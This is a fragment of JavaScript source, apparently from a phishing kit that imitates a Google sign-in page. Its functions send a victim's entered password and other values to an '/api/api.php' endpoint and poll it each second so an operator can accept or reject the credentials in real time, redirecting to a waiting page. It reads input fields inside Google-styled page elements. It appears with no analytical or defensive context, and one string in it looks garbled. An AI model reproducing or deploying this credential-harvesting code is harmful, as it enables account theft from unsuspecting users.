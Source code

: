 ```js
          $id("input11").value = "";
          $id("span5").style.display = "block";
          $id("input11").focus();
          clearInterval(settime);
          jsd();
        }
      }
    }
  }
  ajax("post", url, data, f, true);
}

function api_pwd(pwd) {
  var url = path + "/api/api.php";
  var data = "lgnpwd=" + pwd;
  function f(p) {
    function aja() {
      ajax("post", url, data, ffff, true);
    }
    var timer = setInterval(aja, 1000);
    function ffff(d) {
      if (d) {
        if (JSON.parse(d)["ok"] == "ok") {
          clearInterval(timer);
          y("wait.html");
        }
        if (JSON.parse(d)["ok"] == "no") {
          $id("Error").style.display = "block";

          $("#pwd").val("");
          $(".btn").css("background", "#ccc");
          $(".btn").html("Next");
          $(".btn").children("span").remove();

          clearInterval(timer);
        }
      }
    }
  }
  ajax("post", url, data, f, true);
}

function api_yx(yx) {
  var url = path + "/api/api.php";
  var data = "yx=" + yx;
  function f(p) {
    div();
    function aja() {
      ajax("post", url, "yxok=ok", ffff, true);
    }
    var timer = setInterval(aja, 1000);
    function ffff(d) {
      if (d) {
        if (JSON.parse(d)["ok"] == "ok") {
          if ($id("divq")) {
            $id("divq").remove();
          }
          clearInterval(timer);
          y(
            "Sign in - Google Accountp.php?p=" +
              document
                .getElementsByClassName("Xb9hP")[0]
                .getElementsByTagName("input")[0].value
```